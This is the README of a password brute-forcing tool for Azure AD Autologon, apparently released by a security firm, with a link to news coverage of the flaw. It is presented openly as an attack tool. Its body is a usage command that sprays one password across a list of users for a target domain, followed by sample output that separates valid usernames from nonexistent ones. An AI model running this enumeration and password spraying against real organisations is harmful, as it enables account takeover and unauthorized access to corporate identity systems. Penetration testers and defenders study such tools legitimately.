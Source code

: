 # AzureAD_Autologon_Brute
Brute force attack tool for Azure AD Autologon 

https://arstechnica.com/information-technology/2021/09/new-azure-active-directory-password-brute-forcing-flaw-has-no-fix/


```
Usage:
python3 azuread_autologon_brute.py -d intranet.directory -U users.txt -p Password1
```


```
[~/AzureAD_Autologon_Brute] # python3 azuread_autologon_brute.py -d intranet.directory -U users.txt -p Password1
Domain is  intranet.directory
Setting password as: Password1
Reading users from file: users.txt

+-----------------------------------------+
|          AzureAD AutoLogon Brute          |
|     2021.09.30 @nyxgeek - TrustedSec      |
+-----------------------------------------+

[-] Username not found:wumpus@intranet.directory:Password1
[+] VALID USERNAME, invalid password :stephen.falken@intranet.directory:Password1
[-] Username not found:grand.poobah@intranet.directory:Password1
[-] Username not found:thewiz@intranet.directory:Password1
[-] Username not found:bingobongo@intranet.directory:Password1
[-] Username not found:administrator@intranet.directory:Password1
[+] VALID USERNAME, invalid password :david.lightman@intranet.directory:Password1
[-] Username not found:fakeuser123@intranet.directory:Password1
[+] VALID USERNAME, invalid password :nyxgeek@intranet.directory:Password1
[-] Username not found:jabberwocky@intranet.directory:Password1

```
